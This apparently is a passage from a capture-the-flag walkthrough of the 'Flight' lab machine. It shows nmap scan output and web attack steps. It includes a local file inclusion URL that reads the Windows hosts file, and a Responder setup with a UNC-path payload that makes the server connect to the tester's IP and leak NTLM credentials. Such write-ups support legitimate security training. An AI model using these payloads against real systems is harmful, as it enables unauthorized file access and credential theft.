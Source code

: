 ```sh
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49720/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

UDP
```sh


```

# HTTP
http://flight.htb/
![[/assets/images/flight1.png]]

http://school.flight.htb/
![[/assets/images/flight2.png]]

## Test for LFI
![[/assets/images/flight6.png]]

![[/assets/images/flight7.png]]

Replace `\` with `/`

```sh
# modified payload
http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts
```

![[/assets/images/flight8.png]]

## Combine LFI with RFI
```sh
# start Responder
sudo responder -I tun0 -v

# Pass RFI payload to LFI vulnerable parameter 
http://school.flight.htb/index.php?view=//10.10.14.59/htb
```
